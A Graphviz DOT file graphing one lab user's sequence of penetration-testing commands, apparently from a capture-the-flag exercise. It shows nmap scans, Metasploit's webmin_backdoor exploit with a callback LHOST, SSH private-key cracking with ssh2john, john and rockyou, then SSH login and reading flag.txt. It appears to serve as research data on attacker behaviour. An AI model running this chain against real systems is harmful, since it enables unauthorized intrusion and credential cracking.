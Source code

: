 // creating graph for user: 80
digraph {
	node [shape=box]
	0 [label="nmap -A 172.18.1.5 M0 "]
	1 [label="nmap -A -p 1-65536 A0 A1 "]
	2 [label="nmap -A -p 1-65536 172.18.1.5 M0 "]
	3 [label="nmap -A -p 1-65535 172.18.1.5 M0 "]
	4 [label="msfconsole M2 "]
	5 [label="search webmin M3 "]
	6 [label="use exploit/unix/webapp/webmin_backdoor M8 "]
	8 [label="set RHOST 172.18.1.5 A6 "]
	9 [label="set RHOSTS 172.18.1.5 M6 "]
	11 [label="set LHOST 10.1.135.83 M6 "]
	12 [label="nmap -A 10.1.17.4 A0 A1 "]
	14 [label="ssh2john A14 A16 "]
	15 [label="john key A14 "]
	16 [label="cat key  A1 A9 A11 A12 A17 "]
	17 [label="locate *2john A1 A9 A10 A11 A12 A14 A17 "]
	18 [label="/usr/share/john/ssh2john.py key > key.hash A14 A16 "]
	19 [label="john key.hash A14 "]
	20 [label="cat key.hash A1 A9 A11 A12 A17 "]
	21 [label="run M8 "]
	29 [label="run M8 "]
	33 [label="ls A10 "]
	34 [label="./ssh2john.py key > key2.hash A14 A16 "]
	35 [label="john key2.hash A14 "]
	36 [label="locate *ockyou* A1 A9 A10 A11 A12 A17 "]
	37 [label="john --wordlist=/usr/share/wordlists/rockyou.txt key2.hash M14 "]
	38 [label="ssh -h A16 "]
	39 [label="ssh -i key eve@10.1.17.4 M16 "]
	40 [label="chmod 600 key M15 "]
	41 [label="ssh -i key eve@10.1.17.4 M16 "]
	42 [label="ssh -i key eve@10.1.17.4 M16 "]
	43 [label="ls A10 "]
	45 [label="ls A10 "]
	46 [label="cat flag.txt M17 "]
	47 [label="cat /usr/share/wordlists/rockyou.txt  A1 A9 A11 A12 A17 "]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 6 [constraint=false]
	6 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 20 [constraint=false]
	20 -> 21 [constraint=false]
	21 -> 29 [constraint=false]
	29 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	rankdir=LR
}
